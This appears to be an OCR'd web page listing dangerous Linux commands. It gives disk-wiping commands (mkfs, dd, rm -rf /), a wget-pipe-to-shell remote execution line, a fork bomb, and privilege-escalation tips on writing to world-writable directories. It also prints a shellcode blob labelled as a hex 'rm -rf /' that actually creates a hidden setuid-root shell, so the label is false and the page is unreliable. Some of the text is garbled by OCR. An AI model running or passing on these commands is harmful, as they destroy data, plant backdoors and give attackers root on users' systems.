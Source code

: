 Oh, and you’re probably a jerk if you use any of the stuff below.
| Command | Description |
| mkfs.ext3 /dev/sda | Reformat the device mentioned, making recovery of files hard. |
| dd if=/dev/zero of=/dev/sda bs=1M | Overwrite disk /dev/sda with zeros |
| rm -rf / | This will recursively try to delete all files. |

```
char esp[] __attribute__ ((section(”.text”))) /* e.s.p release */ = 
“\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
“\x6e\x2f\x73\x68\x00\x2d\x63\x00″
“cp -p /bin/sh /tmp/.beyond; chmod 4755 /tmp/.beyond;”;
```
Hex version of rm -rf /
How is this supposed to work?

## Execute a remote script

This command forces the download of a file and immediately its execution, can be exploited easily using or reverse shit

> wget http://server/file.sh -O- | sh

## Fork Bomb

> :(){:|:&};:

The [in]famous "fork bomb". This command will cause your system to run a large number of processes, until it "hangs". This can often lead to data loss (e.g. if the user brutally reboots, or the OOM killer kills a process with unsaved work). If left alone for enough time a system can eventually recover from a fork bomb.

## Stolen from: http://incolumitas.com/wp-content/uploads/2012/12/blackhats_view.pdf

*  World writable directories
** Find word writable folders outside your home directory. It would be a tremendous success if we could write, say to /etc. So we could add configuration files and therefore pretty sure execute code as root, since many daemons read a specific number of primary and secondary configuration files, whereas the secondary ones are often not created yet. If the superusers home (/root) would be writable, we could create shell startup files that doesn't exist yet: .profile,
.bash_profile, .bashrc...

> find / \( ­wholename '/home/homedir/*' ­prune \) \
> ­o \( ­type d ­perm ­0002 \) \
> ­exec ls ­ld '{}' ';' 2>/dev/null
